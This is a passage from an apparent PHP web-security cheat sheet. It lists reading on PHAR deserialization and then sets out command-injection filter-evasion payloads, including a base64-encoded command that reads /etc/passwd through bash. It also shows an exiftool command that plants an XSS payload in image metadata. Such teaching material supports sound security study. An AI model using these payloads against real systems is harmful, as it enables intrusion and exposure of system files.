 Readmore:
- [What is Phar Deserialization](https://www.sonarsource.com/blog/new-php-exploitation-technique/)
- [How to exploit the PHAR deserialization vulnerability](https://pentest-tools.com/blog/exploit-phar-deserialization-vulnerability)
- [Authenticated Magento RCE with deserialized PHAR files](https://pentest-tools.com/blog/magento-authenticated-rce)
- [PHAR deserialization (CVE-2023-28115 patch bypass)](https://www.synacktiv.com/advisories/phar-deserialization-cve-2023-28115-patch-bypass)
- [Exploring the PHAR Deserialization PHP Vulnerability: A White Box Testing Example](https://zigrin.com/cakephp-application-cybersecurity-research-exploring-the-phar-deserialization-php-vulnerability-a-white-box-testing-example/)
- [Phar Deserialization Attacks Explained](https://blog.seclify.com/phar-deserialization-attacks-explained/)
- [Exploiting PHP Phar Deserialization Vulnerabilities: Part 1](https://www.keysight.com/blogs/en/tech/nwvs/2020/07/23/exploiting-php-phar-deserialization-vulnerabilities-part-1)

## Injection
### Command Injection
**Dangerous Functions**: `exec`, `system`, `shell_exec`, `passthru`, and `popen` are vulnerable to command injection if they handle unsanitized input.

**Blacklist/Filter Evasion**:
```php
$BLChar = ['&', '|', ';', '>', '<'];
$BLCommand = ['whoami', 'cat', 'id'];
```

**Bypass Techniques**:
- **Whitespace Substitution**:
    - `%0a%09` for tab, or use `${IFS}` for spaces in Linux.
- **Brace Expansion**:
    - `{ls,-la}` to execute `ls -la`.
- **String Manipulation**:
    - `${LS_COLORS:10:1}` to replace semicolon `;`.
- **Encoding and Substitution**:
    - Use `who$@ami`, `w\ho\am\i`, or `$((tr "[A-Z]" "[a-z]"<<<"WhOaMi"))` to bypass filters.
- **Using `<<<`**:
    - Redirection with `<<<` can eliminate the need for `|` (pipe) characters, which may be filtered for example `$(rev<<<'imaohw')` and `bash<<<$(base64 -d<<<Y2F0IC9ldGMvcGFzc3dkIHwgZ3JlcCAzMw==)`

### Cross-Site Scripting (XSS)
**Image Metadata Injection**
- If the application displays metadata without sanitization, the payload will execute upon loading, leading to XSS.
- **Extra Technique**: Change the image’s MIME type to `text/html` to increase the likelihood of browsers interpreting it as HTML rather than an image.
- Example: 

```
exiftool -Comment='"><img src=1 onerror=alert(window.origin)>' shell.jpg
```
